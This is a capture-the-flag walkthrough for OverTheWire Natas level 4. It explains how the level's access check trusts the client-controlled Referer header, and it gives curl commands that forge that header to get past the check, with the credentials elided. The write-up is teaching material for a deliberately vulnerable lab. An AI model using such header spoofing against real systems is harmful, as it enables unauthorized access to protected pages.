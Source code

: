 Level 4
-------

We got an "access disallowed" error because we were visiting
from "", while authorized users should come from natas5.
If that doesn't clue you in, try the "Refresh page" link. Now
the page says we came from natas4. This is the `Referer` (sic)
header. But that's information provided by the client, and
we control the client. We can put whatever we want in that
header. So, let's put natas5, as they kindly suggested.

Hit CTRL-J, find the request to `index.php`, right-click, and
select "Copy as CURL". This will give you the command line
command to have curl execute the exact same request. Now, we
just look for the `Referer` header, and change it. Don't forget
to change the `Accept-Encoding` header, or you'll receive
gzipped binary junk.

    curl "http://natas4.natas.labs.overthewire.org/index.php" \
        -H "Authorization: Basic ..." \
        -H "DNT: 1" \
        -H "Host: natas4.natas.labs.overthewire.org" \
        -H "Accept-Language: en-GB,en-US;q=0.8,en;q=0.6" \
        -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.110 Safari/537.36" \
        -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
        -H "Referer: http://natas5.natas.labs.overthewire.org/" \
        -H "Connection: keep-alive" \
        -H "Cache-Control: max-age=0"

Alternatively, just do:

    curl "http://natas4.natas.labs.overthewire.org/index.php" \
        -e "http://natas5.natas.labs.overthewire.org/" \
        -u natas4:...
